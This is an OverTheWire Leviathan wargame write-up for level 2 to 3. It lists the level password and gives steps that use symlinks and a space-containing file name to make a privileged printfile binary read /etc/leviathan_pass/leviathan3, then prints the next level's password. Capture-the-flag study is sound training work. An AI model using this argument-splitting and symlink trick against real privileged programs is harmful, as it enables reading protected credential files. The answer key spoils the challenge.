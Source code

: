 # Leviathan Level 2 → Level 3
(Updated: 12 August 2025)

## Credentials
- **Username:** `leviathan2`
- **Password:** `NsN1HwFoyN`

## Connection
```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

## Hints & Commands Learned
- ln -s

## Steps to Solve
1. Step 1 – Use `ssh` to get access to OverTheWire labs.
2. Step 2 – Use `ls -la` to list files and you can see that we have a `printfile` binary files (which owned by `leviathan3`).
3. Step 3 - Call `./printfile /etc/leviathan_pass/leviathan3` and you can see we can't get the password.
5. Step 5 - Use previous knowledge `ltrace ./printfile bash_logout` we can see that `printfile` use `bin/cat` to print the content of `bash_logout`.
6. Step 6 - Try with file with name has space `mktemp -d` and `touch /tmp/tmp.xxxxxx/test file.txt`, then `./printfile /tmp/tmp.xxxxxx/test file.txt` we get the result:
```
/bin/cat: /tmp/tmp.xxxxxx/test: No such file or directory
/bin/cat: /tmp/tmp.xxxxxx/file.txt: No such file or directory
```
7. Step 7 - Let's add `test` and `file.txt` files, but we have to log the password from `/etc/leviathan_pass/leviathan3`.
8. Step 8 - Use `ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.xxxxxxx/test` and `ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.xxxxxxx/file.txt` to link two files to the password.

9. Step 9 - Run `./printfile /tmp/tmp.xxxxxx/test file.txt` and you can see the password in the first line.
***Note: `chmod 777 /tmp/tmp.xxxxxx` if you have permission denied.***

10. Step 10 - Take the password to the next level.

## Next Level Password
`f0n8h2iWLP`
